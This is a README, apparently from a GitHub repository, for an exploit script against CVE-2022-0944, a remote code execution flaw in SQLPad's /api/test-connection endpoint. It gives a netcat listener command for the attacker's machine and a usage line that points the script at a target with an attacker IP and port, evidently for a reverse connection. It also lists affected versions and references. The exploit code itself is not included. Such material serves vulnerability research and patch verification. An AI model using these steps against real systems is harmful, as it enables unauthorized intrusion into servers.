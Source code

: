 # SQLPad RCE Exploit

This repository contains an exploit script for CVE-2022-0944 in SQLPad, a vulnerability that allows for Remote Code Execution (RCE) via the `/api/test-connection` endpoint.

## Overview

The provided script (`exploit.py`) demonstrates how to exploit the RCE vulnerability in SQLPad. The script sends a payload to the vulnerable endpoint, executing a command on the target server.

## Features

- **Blind RCE**: Executes commands on the target server without receiving direct responses.
- **Netcat Listener**: Requires a netcat listener setup on the attacker's machine to receive outputs.

## Prerequisites

- Python 3.x
- `requests` library (can be installed via `pip`)

## Usage
1. Setup a Netcat Listener

```bash
nc -lvnp 4444
```
Run the Exploit

```bash
python exploit.py <sqlpad_url> <attacker_ip> <attacker_port>
```

### Affected Versions

- Up to (excluding) 6.10.1

### References

- [Huntr - CVE-2022-0944](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
- [NVD - CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944)




